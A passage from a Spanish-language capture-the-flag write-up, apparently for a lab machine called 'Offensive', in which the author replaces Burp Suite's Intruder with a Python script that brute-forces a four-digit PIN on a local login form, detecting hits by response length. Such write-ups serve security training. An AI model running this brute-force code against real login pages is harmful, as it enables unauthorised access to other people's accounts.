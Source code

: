 ![](assets/img/thl-writeup-offensive/offensive3_2.png)

En lugar de utilizar el Intruder de Burp Suite, ejecuto un script en Python para forzar la búsqueda del PIN.

```python
import requests

def fuzz_pin():
    url = "http://127.0.0.1:5000"
    base_data = "usuario=admin&password=disconnected&pin={}"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    invalid_data = base_data.format("0000")
    invalid_response = requests.post(url, headers=headers, data=invalid_data, allow_redirects=False)
    invalid_length = len(invalid_response.content)
    print(f"[*] Longitud esperada para PIN incorrecto: {invalid_length}")
    
    possible_pins = []
    
    for pin in range(0, 10000):
        pin_str = str(pin).zfill(4)
        data = base_data.format(pin_str)
        response = requests.post(url, headers=headers, data=data, allow_redirects=False)
        
        if len(response.content) != invalid_length:
            print(f"[+] Posible PIN encontrado: {pin_str}")
            possible_pins.append(pin_str)
        else:
            print(f"[-] Probando PIN: {pin_str}", end="\r")
    
    if possible_pins:
        print("\n[+] Lista de posibles PINs:")
        for pin in possible_pins:
            print(f"    - {pin}")
    else:
        print("\n[-] No se encontraron PINs válidos.")

```